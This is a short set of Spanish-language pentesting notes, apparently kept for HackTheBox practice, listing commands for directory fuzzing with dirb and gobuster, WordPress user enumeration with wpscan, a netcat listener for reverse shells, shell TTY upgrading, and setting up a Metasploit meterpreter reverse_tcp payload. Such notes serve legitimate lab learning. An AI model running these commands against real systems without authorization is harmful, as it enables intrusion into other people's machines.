 # apuntes_ciber
### Dirb Fuzzing

dirb url Gobuster gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium —url url

### Wordpress Scan

wpscan —url ip o url de la maquina -e vp.u

****TartarSauce htb****

wpscan —url ip —enumerate u

### Ponerme en escucha

nc -lvnp 443

### Tratamiento de la TTY

script /dev/null -c bash

ctrl Z  stty raw -echo;fg

reset xterm

export TERM=xterm

export SHELL=bash

### Searchsploit y Metasploit

searchsploit -m numero identificativo para mover el exploit 

msfdb run

use exploit es para usar el exploit

show option para ver lo que nos pide el exploit Set RHOSTS ip target

### Crear Listener con metasploit

set payload windows/meterpreter/reverse_tcp

set LHOST ip maquina

set PORT 4645

exploit
